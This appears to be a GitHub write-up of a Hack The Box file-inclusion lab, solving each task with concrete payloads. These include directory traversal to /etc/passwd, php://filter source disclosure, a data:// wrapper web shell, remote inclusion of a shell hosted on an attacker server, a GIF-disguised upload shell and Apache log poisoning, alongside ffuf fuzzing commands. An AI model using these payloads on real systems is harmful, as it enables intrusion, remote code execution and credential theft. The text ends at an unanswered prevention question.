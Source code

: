 <h1><ins>Local File Inclusion (LFI)</ins></h1>
<h2>Task: Using the file inclusion find the name of a user on the system that starts with "b".</h2>
To exploit LFI, we use directory traversal techniques to access sensitive files. By injecting ../ into the file path, we can navigate out of the intended directory and access system files, such as /etc/passwd. The /etc/passwd file is a standard Linux file that contains information about system users. Each line in the file corresponds to a user, and their usernames are the first field on each line.<br></br>

![Screenshot 2024-11-15 211516](https://github.com/user-attachments/assets/d8bed4c5-9929-4d5b-bb24-0974766b87bd)

<br></br>Since Text output is to long we can view page source to see full text which gives us user on the system that starts with "b".<br></br>

![Screenshot 2024-11-15 211552](https://github.com/user-attachments/assets/a3ac51a4-57a0-4a98-8266-73a97d51e4b7)

<h2>Task: Submit the contents of the flag.txt file located in the /usr/share/flags directory.</h2>

Using same method and changing directory with file name get our flag.

![Screenshot 2024-11-15 211948](https://github.com/user-attachments/assets/36fd1584-3202-41c5-99b3-fa6c83676c7d)

<br></br>

<h1><ins>Basic Bypasses</ins></h1>
<h2>Task: The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt</h2> 
Using previous method of ../ we are presented with "Illegal path specified!", to bypass filters we combine ....// method and approved path by application.

![Screenshot 2024-11-15 221940](https://github.com/user-attachments/assets/4122b301-73aa-4bac-b6b0-72bb8ffe77a2)

<br></br>

<h1><ins>PHP Filters(LFI)</ins></h1>
<h2>Task: Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer</h2>
Using ffuf we can find php files that web application uses in some cases we might need to have a larger directory file, but for this module small directory file is enough. <code>ffuf -w Desktop/directory-list-2.3-small.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ.php</code> , after running command we can see that it found two .php files index and configure.

Once we have a list of potential PHP files we want to read, we can start disclosing their sources with the base64 PHP filter. We can try to read source code of config.php using the base64 filter, by specifying convert.base64-encode for the read parameter and config for the resource parameter, using this code <code>php://filter/read=convert.base64-encode/resource=</code> our final URL looks like this: <code>http://SERVER_IP:PORT/index.php?language=php://filter/read=convert.base64-encode/resource=configure</code>
To copy full encoded text we can use View Page Source

![Screenshot 2024-11-16 185901](https://github.com/user-attachments/assets/e03e9000-db00-4771-bfaa-f8f683c3e621)

Using <code> echo "encoded text" | base64 -d</code> we can decode text and find flag.

![Screenshot 2024-11-16 190353](https://github.com/user-attachments/assets/f15de0a4-40f5-49fe-9631-0d25be69e09e)

<h1><ins>PHP Wrappers</ins></h1>
<h2>Task: Try to gain RCE using one of the PHP wrappers and read the flag at /</h2>

After going throught HTB Writeup we can see that <code>http://SERVER_IP:PORT/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id</code> show UID's we can use last part <code>cmd=id</code> to pass commands which in this case we can change to <code>cmd=ls /</code> to find our flag file which is <code>37809e2f8952f06139011994726d9ef1.txt</code> knowing this we can change our last part of the code to get flag <code>cmd=cat /37809e2f8952f06139011994726d9ef1.txt</code>


![1](https://github.com/user-attachments/assets/6e1c7ccf-33f8-4393-99c6-6d40eca727f5)

<h1><ins>Remote File Inclusion (RFI)</ins></h1>
<h2>Task: Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in/</h2>
Flowoing HTB Writeup first we create a basic php shell <code> echo '<code><</code>?php system($_GET["cmd"]); ?>' > shell.php </code> then we start a python server <code>sudo python3 -m http.server LISTENING_PORT </code> back in the web page we can use this url <code>http://SERVER_IP:PORT/index.php?language=http://OUR_IP:LISTENING_PORT/shell.php&cmd=id</code> to pass commands. After going trough directories we can easelly find our flag.

![Screenshot 2024-11-18 220254](https://github.com/user-attachments/assets/1ad366a8-e11a-488e-a876-c72f48485d4a)

<h1><ins>LFI and File Uploads</ins></h1>
<h2>Task: Use any of the techniques covered in this section to gain RCE and read the flag at /</h2>
Using image upload first we create web shell file that we will use to upload as image <code>echo 'GIF8<code><</code>?php system($_GET["cmd"]); ?>' > shell.gif</code> after successful upload we can use this URL <code>http://SERVER_IP:PORT/index.php?language=./profile_images/shell.gif&cmd=id</code> to start using comands to find our flag
  
![Screensh5ot 2024-11-18 220254](https://github.com/user-attachments/assets/5f7aeeb2-4375-433c-a5a5-5323f52eee8b)

<h1><ins>Log Poisoning</ins></h1>
<h2>Task: Use any of the techniques covered in this section to gain RCE, then submit the output of the following command: pwd/</h2>
using burpsuite we send intercept address <code>http://SERVER_IP:PORT/index.php?language=/var/log/apache2/access.log</code> and by changing user-agent to <code><code><</code>?php system($_GET['cmd']); ?></code> we can inject commands, we also need to change end of url by adding in this case <code>&cmd=pwd</code>
  
![Screenshot 2024-12-01 202623](https://github.com/user-attachments/assets/c0ea16db-a9f4-4c97-9c78-8f36ced111f6)

<h2>Task:  Try to use a different technique to gain RCE and read the flag at / /</h2>
using burpsuit url encoder we can send command to check the files that are inside directory /

![Screenshot 2024-12-01 214032](https://github.com/user-attachments/assets/6d125a2a-4b77-4059-8193-7c487417b127)

![Screenshot 2024-12-01 214138](https://github.com/user-attachments/assets/a7ff890c-41e2-43a1-be6a-38197963c7d6)

after finding flag file we encode it as url using <code>cat /FlagFileName.txt</code> which give us our flag file contents

![Screenshot 2024-12-01 214322](https://github.com/user-attachments/assets/ef19dddd-00a0-4fd7-9b8c-251fc24d8551)

<h1><ins>Automated Scanning</ins></h1>
<h2>Task: Fuzz the web application for exposed parameters, then try to exploit it with one of the LFI wordlists to read /flag.txt/</h2>
Following HTB writeup im using <code>ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://SERVER_IP:PORT/index.php?FUZZ=value' -fs 2287</code>,burp-parameter-names.txt might not be by default in Parrot OS HTB ediot so with help of google you can find txt file and run the command

![Screenshot 2024-12-02 200657](https://github.com/user-attachments/assets/5822c583-1d51-4636-9807-4a61403c8fb4)

After running command and trying few results theres no success, if you notice most of the output is in 2309 bit size so if we change our command to exclude these results and try again well find a match.

![Screenshot 2024-12-02 200735](https://github.com/user-attachments/assets/95bc30a0-daf1-4f4b-bf4c-647332941a81)

After finding working parameter we can try <code>ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://SERVER_IP:PORT/index.php?view=FUZZ' -fs 2287</code>, but again were getting to many wrong results so after checking size and excluding the most common ones we get working results.

![Screenshot 2024-12-02 202346](https://github.com/user-attachments/assets/d1c967d8-02cd-4833-b164-208d89b94779)

Then by using our findings and using as our url we get list of users

![Screenshot 2024-12-02 200914](https://github.com/user-attachments/assets/26e610e0-1c0e-4f5f-bac8-8a0b0297ab70)

Changing url end to <code>/flag.txt</code> we get a flag.

![Screenshot 2024-12-02 200953](https://github.com/user-attachments/assets/19be7c48-f37a-4009-9318-f5d28a10375c)

<h1><ins>File Inclusion Prevention</ins></h1>
<h2>Task: What is the full path to the php.ini file for Apache?</h2>

